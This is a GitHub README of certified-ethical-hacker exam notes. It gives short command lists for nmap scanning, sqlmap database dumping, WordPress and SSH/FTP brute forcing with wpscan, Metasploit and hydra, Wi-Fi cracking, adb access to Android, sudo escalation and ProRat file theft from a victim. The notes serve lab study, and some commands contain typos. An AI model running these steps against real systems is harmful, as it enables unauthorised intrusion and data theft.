 # CEH-Notes

> sudo netdiscover -r 192.168.1.0/24				
## NMAP
> Best <br/>
> nmap -sn 192.168.1.0/24 <br/>
> nmap -A -T4 -p- 192.168.1.0/24 <br/>
> nmap -sC -sV -Pn -T4 -vv -p- 192.168.1.0/24 <br/>
> nmap --script vuln -Pn -T4 -p- 192.168.1.0/24 <br/>
> <br/>
> Firewall/IDS, if opened <br/>
> nmap -sS -v -p- 192.168.1.0/24  <br/>
> nmap -f -p- 192.168.1.0/24 <br/>
> <br/>
> UDP Scan <br/>
> nmap -sU --top-ports 25 -p- 192.168.1.0/24 <br/>

## SQLMap <br/>
> sqlmap -r req.txt -dbs<br/>
> sqlmap -r req.txt -D DBName --tables<br/>
> sqlmap -r req.txt -D DBName --tables --columns<br/>
> sqlmap -r req.txt -D DBName --dump<br/>

## WordPress <br/>
> <b>WP SCAN</b><br/>
> wpscan --url http://192.168.0.1 <br/>
> wpscan --url http://192.168.0.1 -e u    #User Enum <br/>
> wpscan --url http://192.168.0.1 --enumerate u <br/>
> wpscan --url http://192.168.0.1 --usernames /home/user.txt --passwords /home/pass.txt  <br/>
> wpscan --url http://192.168.0.1 -u john --passwords /home/pass.txt  <br/>

> <b>METASPLOIT</b> <br/>
> msfconsole : <br/>
> use auxilliary/scanner/http/wordpress_login_enum <br/>
> show options <br/>
>	set PASS_FILE /home/attacker/Desktop/Wordlist/password.txt <br/>
>	set RHOSTS 192.168.0.1  (target ip) <br/>
>	set RPORT 8080          (target port) <br/>
>	set TARGETURI http://192.168.0.1:8080/ <br/>
>	set USERNAME admin <br/>

## HYDRA <br/>
> hydra -L /home/user.txt -P /home/pass.txt 192.168.0.1 ftp <br/>
> hydra -L /home/user.txt -P /home/pass.txt ftp://192.168.0.1 <br/>
> hydra -L /home/user.txt -P /home/pass.txt 192.168.0.1 ssh <br/>
> hydra -L /home/user.txt -P /home/pass.txt ssh://192.168.0.1 <br/>

## STEGANOGRAPHY <br/>
> <b>SNOW (Windows)</b><br/>
> <b>Hide:</b>SNOW -C -m "Hey Hacker" -p "hack" abc.txt abcd.txt<br/>
> <b>Extract:</b>SNOW -C -p "hack" abcd.txt<br/>

> <b>OpenStego (Windows)</b><br/>
> Click on Extract Data<br/>
> Select Stego file<br/>
> Select output folder<br/>
> Enter password & CLick on Extract Data Button<br/>

> <b>StegHide (Linux)</b><br/>
> <b>Hide: </b>steghide embed -cf cover.png -ef secret.txt -p 1234 <br/>stegcrack
> <b>Extract:</b> steghide extract -sf steg.file<br/>
> Enter Password & Hit Enter<br/>

> <b>Stegcracker (Linux)</b><br/>
> stegcracker steg.file <br/>

## CRYPTOGRAPHY <br/>
> <b>HashCalc (Windows)</b><br/>
> Open File<br/>
> Click on Calculate Button<br/>

> <b>VeraCrypt (Windows)</b><br/>
> Select any Volume A,B,D,E<br/>
> Select Encrypted Folder<br/>
> Click on mount button<br/>
> Enter Password<br/>
> Open File Manager<br/>
> Open Newly created drive and open secret.txt file<br/>

> <b>Crack Hash</b><br/>
> [Hash Analyzer](https://www.tunnelsup.com/hash-analyzer/)<br/>
> [Hashes](https://hashes.com/en/decrypt/hash)<br/>
> [CrackStation](https://crackstation.net/)<br/>

> <b>BCTextEncoder (Windows)</b><br/>
> Paste Hash Value<br/>
> Click on Decode<br/>
> Enter Password<br/>

> <b>Cryptool (Windows)</b><br/>
> **RC4:**<br/>
> Open File<br/>
> Encrypt/Decrypt > Symmetric(modern) > RC4<br/>
> Enter bit length (EX:14)<br/>
> Click on Decrypt<br/>
>
> **DES(ECB):**<br/>
> Open File<br/>
> Encrypt/Decrypt > Symmetric(modern) > DES(ECB)<br/>
> Select bit length if given in qus<br/>
> Click on Decrypt<br/>

## WireShark <br/>
> For credentials: http.request.method == POST<br/>
> For DoS Attack:<br/>
>                 Statistics > IPv4 Statistics > Source and Destination Address<br/>
>                 Apply Filter:- tcp.flags.syn == 1 and tcp.flags.ack == 0<br/>

## Android <br/>
> **Normal** <br/>
> nmap -p -sV -p 5555 <br/>
> adb connect 192.168.0.1:5555 <br/>
> adb shell <br/>
> cd sdcard <br/>
> cat secret.txt <br/>
>  <br/>
>  **ELF**<br/>
> cd sdcard/scan <br/>
> sudo adb pull /sdcard/scan/ <br/>
> ent evil.elf <br/>
> sha384sum evil.elf <br/>

## FQDN  <br/>
> nmap -p 389 -sV -iL ip.list <br/>
> nmap -p389 -sV 192.168.0.1 <br/>
> FQDN: DC.pentester.team <br/>

## WIFI  <br/>
> aircrack-ng cap.file<br/>
> aircrak-ng -w wordlist.txt cap.file<br/>
> aircrak-ng -b 2a:25:zd:54:48:as-w wordlist.txt cap.file<br/>

## Privilege Escalation<br/>
> Login in ssh<br/>
> sudo -l<br/>
> sudo -i<br/>

## Malware<br/>
> **ProRat**<br/>
> Enter Victim IP<br/>
> Click on connect<br/>
> Enter Password<br/>
> Click on Search Files "Searching for *.txt"<br/>
> Click on File Manager<br/>
> Move to Secret Directory & Download the secret file<br/>



